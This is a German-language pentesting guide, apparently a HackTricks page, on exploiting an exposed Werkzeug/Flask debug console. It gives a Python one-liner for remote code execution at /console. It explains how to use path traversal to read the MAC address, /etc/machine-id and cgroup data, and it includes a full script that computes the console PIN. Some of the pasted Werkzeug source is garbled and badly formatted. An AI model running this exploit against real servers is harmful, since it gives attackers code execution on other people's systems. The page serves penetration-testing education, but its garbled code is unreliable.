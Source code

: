 # Werkzeug / Flask Debug

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Sofort verfügbare Einrichtung für Schwachstellenbewertung und Penetrationstests**. Führen Sie einen vollständigen Pentest von überall aus mit 20+ Tools & Funktionen durch, die von der Aufklärung bis zum Bericht reichen. Wir ersetzen keine Pentester - wir entwickeln benutzerdefinierte Tools, Erkennungs- und Exploit-Module, um ihnen etwas Zeit zurückzugeben, um tiefer zu graben, Shells zu öffnen und Spaß zu haben.

{% embed url="https://pentest-tools.com/" %}

## Console RCE

Wenn das Debuggen aktiv ist, könnten Sie versuchen, auf `/console` zuzugreifen und RCE zu erlangen.

```python
__import__('os').popen('whoami').read();
```

![](<../../.gitbook/assets/image (317).png>)

Es gibt auch mehrere Exploits im Internet wie [dieser](https://github.com/its-arun/Werkzeug-Debug-RCE) oder einer in Metasploit.

## Pin Protected - Pfadtraversierung

In einigen Fällen ist der **`/console`** Endpunkt durch eine PIN geschützt. Wenn Sie eine **Dateitraversierungsanfälligkeit** haben, können Sie alle notwendigen Informationen zum Generieren dieser PIN preisgeben.

### Werkzeug Console PIN Exploit

Erzwingen Sie eine Debug-Fehlerseite in der App, um dies zu sehen:

```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

Eine Nachricht bezüglich des Szenarios "Konsole gesperrt" wird beim Versuch, auf die Debug-Schnittstelle von Werkzeug zuzugreifen, angezeigt, was auf die Notwendigkeit einer PIN zur Entsperrung der Konsole hinweist. Es wird vorgeschlagen, die Konsole-PIN zu nutzen, indem der PIN-Generierungsalgorithmus in der Debug-Initialisierungsdatei von Werkzeug (`__init__.py`) analysiert wird. Der PIN-Generierungsmechanismus kann aus dem [**Werkzeug-Quellcode-Repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) studiert werden, obwohl empfohlen wird, den tatsächlichen Servercode aufgrund möglicher Versionsunterschiede über eine Dateitraversierbarkeitslücke zu beschaffen.

Um die Konsole-PIN auszunutzen, werden zwei Variablensätze, `probably_public_bits` und `private_bits`, benötigt:

#### **`probably_public_bits`**

* **`username`**: Verweist auf den Benutzer, der die Flask-Sitzung initiiert hat.
* **`modname`**: Typischerweise als `flask.app` bezeichnet.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Löst in der Regel zu **Flask** auf.
* **`getattr(mod, '__file__', None)`**: Stellt den vollständigen Pfad zu `app.py` im Flask-Verzeichnis dar (z. B. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Wenn `app.py` nicht zutreffend ist, **versuchen Sie es mit `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Ruft die MAC-Adresse des aktuellen Geräts ab, wobei `str(uuid.getnode())` diese in ein Dezimalformat übersetzt.
* Um die **MAC-Adresse des Servers zu bestimmen**, muss die aktive Netzwerkschnittstelle identifiziert werden, die von der App verwendet wird (z. B. `ens3`). Bei Unsicherheit **leaken Sie `/proc/net/arp`**, um die Geräte-ID zu finden, und **extrahieren Sie dann die MAC-Adresse** aus **`/sys/class/net/<Geräte-ID>/address`**.
* Die Umwandlung einer hexadezimalen MAC-Adresse in Dezimalzahlen kann wie folgt durchgeführt werden:

```python
# Beispiel MAC-Adresse: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

* **`get_machine_id()`**: Verknüpft Daten aus `/etc/machine-id` oder `/proc/sys/kernel/random/boot_id` mit der ersten Zeile von `/proc/self/cgroup` nach dem letzten Schrägstrich (`/`).

<details>

<summary>Code für `get_machine_id()`</summary>

\`\`\`python def get\_machine\_id() -> t.Optional\[t.Union\[str, bytes]]: global \_machine\_id

if \_machine\_id is not None: return \_machine\_id

def \_generate() -> t.Optional\[t.Union\[str, bytes]]: linux = b""

## machine-id is stable across boots, boot\_id is not.

for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot\_id": try: with open(filename, "rb") as f: value = f.readline().strip() except OSError: continue

if value: linux += value break

## Containers share the same machine id, add some cgroup

## information. This is used outside containers too but should be

## relatively stable across boots.

try: with open("/proc/self/cgroup", "rb") as f: linux += f.readline().strip().rpartition(b"/")\[2] except OSError: pass

if linux: return linux

## On OS X, use ioreg to get the computer's serial number.

try:

````
</details>

Nachdem alle erforderlichen Daten gesammelt wurden, kann das Exploit-Skript ausgeführt werden, um die Werkzeug-Konsole-PIN zu generieren. Das Skript verwendet die zusammengestellten `probably_public_bits` und `private_bits`, um einen Hash zu erstellen, der dann weiterverarbeitet wird, um die endgültige PIN zu erzeugen. Im Folgenden finden Sie den Python-Code zur Ausführung dieses Prozesses:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
````

Dieses Skript erzeugt die PIN, indem es die konkatenierten Bits hashiert, spezifische Salze (`cookiesalt` und `pinsalt`) hinzufügt und formatting the output. Es ist wichtig zu beachten, dass die tatsächlichen Werte für `probably_public_bits` und `private_bits` genau vom Zielsystem erhalten werden müssen, um sicherzustellen, dass die generierte PIN mit der von der Werkzeug-Konsole erwarteten übereinstimmt.

Wenn Sie eine **alte Version** von Werkzeug verwenden, versuchen Sie, den **Hash-Algorithmus auf md5** anstelle von sha1 zu ändern.

### Referenzen

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)

<img src="../../.gitbook/assets/image (2) (1) (1).png" alt="" data-size="original">

**Sofort einsatzbereite Einrichtung für Schwachstellenbewertung & Penetrationstests**. Führen Sie einen vollständigen Pentest von überall aus mit 20+ Tools & Funktionen durch, die von der Aufklärung bis zum Bericht reichen. Wir ersetzen keine Pentester - wir entwickeln benutzerdefinierte Tools, Erkennungs- & Exploit-Module, um ihnen etwas Zeit zurückzugeben, um tiefer zu graben, Shells zu öffnen und Spaß zu haben.

</details>
